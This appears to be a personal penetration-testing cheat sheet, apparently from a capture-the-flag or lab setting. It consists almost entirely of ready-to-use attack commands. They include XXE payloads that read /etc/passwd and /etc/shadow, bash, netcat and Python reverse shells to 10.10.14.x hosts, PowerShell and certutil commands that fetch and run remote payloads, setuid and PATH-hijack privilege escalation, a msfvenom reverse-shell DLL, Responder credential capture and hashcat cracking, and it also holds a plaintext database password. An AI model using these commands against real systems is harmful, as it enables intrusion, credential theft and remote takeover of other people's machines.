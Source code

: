 # This file is used to notedown the useful commands during pentesting. After that I arrange the commands
# accordingly in other files in this directory  



1. XXE:

<?xml  version="1.0" encoding="ISO-8859-1"?>                              
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&ent;</title>
		<cwe>aaa</cwe>
		<cvss>aaa</cvss>

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>




2. Capabilities search: `getcap -r / 2>/dev/null`


3. Python pty Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`



4.Reverse shell : 

Bash : `/bin/bash -i 1>&/dev/tcp/10.10.14.5/1234 0<&1`

Netcat : `nc -e /bin/bash 10.10.14.5 4444`

Netcat(2) : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f`

Python: 

`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

5. Perl system command one liner: `sudo perl -e 'system("/bin/bash -p");'`


6. XSS : `<script>alert("XSS")</script>`

7. Find Setuid enabled Programs : `find / -perm -u=s -type f 2>/dev/null`

8. df - to see free disk space of all mounted devices

9. Hash cracking :`hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt --force`  

10. Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py

Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`

export PATH=/home/rabbit:$PATH  

1. mdb-tools for .mdb(MS Access) files
2. pst-utls for .pst files.
3. Download from  ftp in binary mode 


xxd -r -p key ssh.key

cat ~/.bash_history

powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.11:8000/nishang.ps1')
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/jaws-enum.ps1')
powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:8000/jaws-enum.ps1", "C:\\Users\\Public\\Downloads\\jaws-enum.ps1")

powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.11:8000/nc.exe","C:\\xampp\htdocs\gym\upload\nc.exe")

certutil -urlcache -split -f http://10.10.14.11:8000/nc.exe

net users Administrator

cmdkey /list

runas /user:Administrator /savecred "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/nishang2.ps1')"

whoami /prev



sudo responder -wrf --lm -v -I tun0 


msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f dll -o ./evil.dll



mysql -u admin -h localhost --password=kEjdbRigfBHUREiNSDs -D admin













